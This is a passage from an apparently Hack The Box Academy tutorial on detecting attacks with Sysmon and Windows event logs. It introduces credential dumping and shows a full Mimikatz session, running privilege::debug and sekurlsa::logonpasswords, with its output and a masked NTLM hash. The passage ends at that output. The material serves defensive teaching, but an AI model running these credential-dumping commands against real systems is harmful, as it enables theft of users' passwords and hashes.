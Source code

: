 ![Image](https://academy.hackthebox.com/storage/modules/216/image28.png)

Additionally, by referring to both the related "Modules" tab of Process Hacker and Sysmon `Event ID 7`, we can examine the DLL load information to validate the presence of the aforementioned DLLs.

![Image](https://academy.hackthebox.com/storage/modules/216/image29.png) ![Image](https://academy.hackthebox.com/storage/modules/216/image30.png)

---

## Detection Example 3: Detecting Credential Dumping

Another critical aspect of cybersecurity is detecting credential dumping activities. One widely used tool for credential dumping is [Mimikatz](https://github.com/gentilkiwi/mimikatz), offering various methods for extracting Windows credentials. One specific command, "sekurlsa::logonpasswords", enables the dumping of password hashes or plaintext passwords by accessing the [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service). LSASS is responsible for managing user credentials and is a primary target for credential-dumping tools like Mimikatz.

The attack can be executed as follows.

  Analyzing Evil With Sysmon & Event Logs

```cmd-session
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```

